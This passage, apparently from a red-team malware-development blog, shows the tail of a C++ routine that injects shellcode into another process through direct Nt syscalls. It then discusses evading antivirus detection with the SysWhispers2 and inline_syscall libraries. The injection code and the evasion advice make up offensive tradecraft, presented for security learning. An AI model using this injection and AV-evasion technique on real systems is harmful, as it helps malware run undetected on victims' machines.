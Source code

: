 ```cpp
	NtOpenProcess(&hProcess, PROCESS_ALL_ACCESS, &objectAttributes, &clientId);

	LPVOID baseAddress = NULL;
	NtAllocateVirtualMemory(hProcess, &baseAddress, 0, &shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	NtWriteVirtualMemory(hProcess, baseAddress, &shellcode, sizeof(shellcode), NULL);

	HANDLE hThread;
	NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, hProcess, baseAddress, NULL, FALSE, 0, 0, 0, NULL);

	NtClose(hProcess);
	NtClose(hThread);

	return 0;
}
```

The downside of using this tool is that it's already signatured by AV, though it can still be bypassed as mentioned in my [previous post](https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html).

> _For x86 syscalls, [mai1zhi2/SysWhispers2_x86](https://github.com/mai1zhi2/SysWhispers2_x86) could be used._


## inline_syscall

Aside from being detected by AVs, the other thing that I don't like with [jthuraisamy/SysWhispers2](https://github.com/jthuraisamy/SysWhispers2) is the additional task of re-running the tool and re-importing the generated files every time I need to add or use a new "**Nt\***" functions.

Good thing, [JustasMasiulis/inline_syscall](https://github.com/JustasMasiulis/inline_syscall) solves this issue. To use it, simply import the following files as header files:

- [in_memory_init.hpp](https://github.com/JustasMasiulis/inline_syscall/raw/master/include/in_memory_init.hpp)
- [inline_syscall.hpp](https://github.com/JustasMasiulis/inline_syscall/raw/master/include/inline_syscall.hpp)
- [inline_syscall.inl](https://github.com/JustasMasiulis/inline_syscall/raw/master/include/inline_syscall.inl)

Then call the initialization function `jm::init_syscalls_list()` before using the `INLINE_SYSCALL(function_pointer)` and `INLINE_SYSCALL_T(function_type)` macros.


> _NOTE: If you're using Visual Studio, make sure to use `LLVM (clang-cl)` as the **Platform Toolset**._
